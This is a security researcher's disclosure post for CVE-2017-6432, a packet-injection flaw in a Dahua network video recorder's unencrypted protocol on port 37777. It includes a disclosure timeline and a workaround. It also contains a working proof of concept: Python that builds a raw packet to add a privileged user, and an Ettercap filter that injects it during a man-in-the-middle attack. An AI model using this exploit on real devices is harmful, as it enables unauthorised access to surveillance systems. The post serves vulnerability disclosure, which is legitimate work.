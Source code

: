 ```yaml
---
layout: post
title:  "Dahua NVR - Exploiting - CVE-2017-6432"
date:   2017-03-09 21:00:00 +1100
categories: exploit dahua
---
```


### Introduction

After discovering the Exposures identified [here](https://nullku7.github.io/stuff/exposure/dahua/2017/02/24/dahua-nvr.html)
I decided to try to inject a new user into the system by modifying packets in the TCP Stream

#### Disclosure Timeline
- 2017-02-24: Vulnerability Discovered
- 2017-03-02: Proof of Concept Written
- 2017-03-02: Dahua Contacted with plan to disclose on March 9th unless they wished otherwise.
- 2017-03-07: Dahua Responded with timeline to fix CVE-2017-6341, CVE-2017-6342, CVE-2017-6343
- 2017-03-07: Requested response for this: CVE-2017-6432 again
- 2017-03-09: Full Disclosure

### The Hardware and Software

- NVR Model: DHI-HCVR7216A-S3
- NVR Firmware: 3.210.0001.10 build: 2016-6-6
- Camera Firmware: 2.400.0000.28.R build 2016-3-29
- SmartPSS Software (v 1.16.1 Build Date 2017-01-19)
- gDSS Software for Android

### The method

When the Dahua Software (Mobile Phone application, or Desktop application, as identified above) connects to the NVR, it creates a TCP Connection to Socket 37777.  
This TCP Connection must be authorised before the NVR will respond.  
Without a valid authrorisation sending any data to this port, will cause the NVR to close the connection.  

As there is no encryption, any data transmitted over this connection is exposed to being read via a Man in the Middle attack, as identified in my previous report [here](https://nullku7.github.io/stuff/exposure/dahua/2017/02/24/dahua-nvr.html)

This in turn, makes this connection vulnerable to both packet manipulation and packet injection.

The Proof of Concept has been performed using Ettercap, an Ettercap Filter, and Ettercap to perform the Man in the Middle attack.  


### Proof of Concept


First, we need to generate the packet for a new user.
```python
newuser="null"
newpass="ku7"
content = "0:" + newuser + ":" + newpass + ":1:1::1"
length = chr(len(content))
payload = "\xa6\x00\x00\x00" + length + "\x00\x00\x00\x06" + "\x00"*23 + content
```
The :1:1::1 following the username and password is the groups and permissions, this is a basic account with admin rights, which can only modify configuration.  Whatever permissions and groups that are wanted, simply replace that.  
The 0: at the start is the user id.  A 0 causes the NVR to automatically assign the next free user ID to the new user.


![img]({{ site.github.url }}/images/Screen Shot 2017-03-09 at 10.17.05 pm.png){:class="img-responsive"}


Now that we have our content, the following ettercap filter is used.  
What the packtet is I am detecting doesn't matter, as I am actually going to tack my payload (which is normally a full packet) straight onto the end of the original packet, and it will work just fine!  

```
if (ip.proto == TCP && tcp.dst == 37777 && DATA.data + 0 == "\xa4" && DATA.data + 8 == "\x1a" ){
    msg("Found One");
    inject("/root/etter/newuser.packet");
    exit();
}
```
![img]({{ site.github.url }}/images/Screen Shot 2017-03-09 at 10.05.25 pm.png){:class="img-responsive"}

Now, Load this up into ettercap, do our magic, and have a peek at what happens

I hear you... That packet will be the wrong size, checksum won't match, the world will fall over.
You should drop or replace contents.  

![img]({{ site.github.url }}/images/Screen Shot 2017-03-09 at 10.25.37 pm.png){:class="img-responsive"}

Yes, I should have to do something better than this... but I don't!

![img]({{ site.github.url }}/images/Screen Shot 2017-03-09 at 10.27.29 pm.png){:class="img-responsive"}

Originally I did so this by replacing the packet contents, as well as other ways.  As long as you inject into the stream, it will work

![img]({{ site.github.url }}/images/Screen Shot 2017-03-02 at 12.51.14 am.png){:class="img-responsive"}


### Additional Notes

While this proof of concept is only for injecting a user, it could be used for much more.


### Workarounds

There are none, this is insecure by design.  
Until proper encryption is used, these are vulnerable.  
If you intend to use any Dahua equipment on an untrusted network, they should be accessed only using an encrypted tunnel of some sort.  

### Vendor Response

Will update this when they do.  
7 days was given for a response, while correspondance did occur, this exploit was not covered.  
Due to the logical step from the last exposures to this one, Full Disclosure is applied.

### Credits

Vulnerability discovered by Andrew Frahn (null_ku7)

### References

CVE-2017-6341, CVE-2017-6342, CVE-2017-6343: (https://nullku7.github.io/stuff/exposure/dahua/2017/02/24/dahua-nvr.html)[https://nullku7.github.io/stuff/exposure/dahua/2017/02/24/dahua-nvr.html]
